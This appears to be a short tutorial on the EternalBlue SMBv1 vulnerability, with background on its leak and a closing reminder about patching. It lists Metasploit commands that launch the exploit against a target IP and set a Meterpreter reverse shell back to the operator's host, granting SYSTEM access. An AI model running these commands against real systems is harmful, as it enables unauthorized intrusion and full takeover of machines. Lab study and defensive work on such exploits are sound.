

EternalBlue is one of the most infamous vulnerabilities in the history of cybersecurity. It was originally discovered by the NSA and later leaked by a hacking group known as Shadow Brokers in 2017. This exploit targets a vulnerability in Microsoft’s implementation of the Server Message Block (SMB) protocol.
EternalBlue exploits a flaw in SMBv1 where specially crafted packets can trigger remote code execution without authentication. It allows an attacker to gain full control over the target system, often with SYSTEM-level privileges.
⚠️ This is for lab and research use only. Do not exploit systems without authorization.
msfconsole
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS [Target IP]
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST [Your IP]
run
If the target is vulnerable, you will gain a reverse shell or meterpreter session. You now have SYSTEM access and can control the machine.
EternalBlue reminds us why patching and monitoring are critical to cybersecurity hygiene. Though years have passed since its discovery, many systems are still exposed to this exploit due to negligence or legacy software.